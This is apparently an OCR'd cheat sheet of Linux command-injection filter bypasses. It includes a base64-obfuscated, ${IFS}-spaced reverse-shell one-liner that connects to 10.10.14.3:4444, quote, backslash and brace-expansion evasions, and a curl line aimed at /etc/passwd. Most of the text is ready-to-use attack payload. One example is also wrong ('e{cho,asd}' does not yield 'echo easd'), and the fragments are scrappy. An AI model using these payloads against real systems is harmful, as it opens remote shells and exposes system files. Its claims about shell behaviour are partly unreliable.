 # linux命令执行/注入

`echo${IFS}YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zLzQ0NDQgMD4mMSI=|base64${IFS}-d|bash `

The IFS variable is used instead of spaces, in order to avoid the server from splitting the command.

ls ==  \l\s

ls == l''s               double single quote  not double quote

sometimes whitespace don't need encode

#### bash only

```
$ e{cho,asd}            ===   echo easd            {,} is wildcards
can be used to do command injection curl {ip,-o,/etc/passwd}
```
